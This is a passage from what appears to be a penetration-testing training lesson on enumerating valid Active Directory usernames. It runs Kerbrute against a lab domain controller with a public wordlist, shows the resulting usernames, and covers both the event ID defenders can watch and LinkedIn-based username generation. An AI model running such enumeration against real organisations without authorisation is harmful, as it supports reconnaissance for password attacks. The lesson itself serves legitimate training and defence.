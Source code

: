 Let's try out this method using the [jsmith.txt](https://github.com/insidetrust/statistically-likely-usernames/blob/master/jsmith.txt) wordlist of 48,705 possible common usernames in the format `flast`. The [statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames) GitHub repo is an excellent resource for this type of attack and contains a variety of different username lists that we can use to enumerate valid usernames using `Kerbrute`.

#### Kerbrute User Enumeration

```shell-session
slomkm@htb[/htb]$  kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:16:11 >  Using KDC(s):
2022/02/17 22:16:11 >  	172.16.5.5:88

2022/02/17 22:16:11 >  [+] VALID USERNAME:	 jjones@inlanefreight.local
2022/02/17 22:16:11 >  [+] VALID USERNAME:	 sbrown@inlanefreight.local
2022/02/17 22:16:11 >  [+] VALID USERNAME:	 tjohnson@inlanefreight.local
2022/02/17 22:16:11 >  [+] VALID USERNAME:	 jwilson@inlanefreight.local
2022/02/17 22:16:11 >  [+] VALID USERNAME:	 bdavis@inlanefreight.local
2022/02/17 22:16:11 >  [+] VALID USERNAME:	 njohnson@inlanefreight.local
2022/02/17 22:16:11 >  [+] VALID USERNAME:	 asanchez@inlanefreight.local
2022/02/17 22:16:11 >  [+] VALID USERNAME:	 dlewis@inlanefreight.local
2022/02/17 22:16:11 >  [+] VALID USERNAME:	 ccruz@inlanefreight.local

<SNIP>
```

We've checked over 48,000 usernames in just over 12 seconds and discovered 50+ valid ones. Using Kerbrute for username enumeration will generate event ID [4768: A Kerberos authentication ticket (TGT) was requested](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4768). This will only be triggered if [Kerberos event logging](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/enable-kerberos-event-logging) is enabled via Group Policy. Defenders can tune their SIEM tools to look for an influx of this event ID, which may indicate an attack. If we are successful with this method during a penetration test, this can be an excellent recommendation to add to our report.

If we are unable to create a valid username list using any of the methods highlighted above, we could turn back to external information gathering and search for company email addresses or use a tool such as [linkedin2username](https://github.com/initstring/linkedin2username) to mash up possible usernames from a company's LinkedIn page.

---

## Credentialed Enumeration to Build our User List
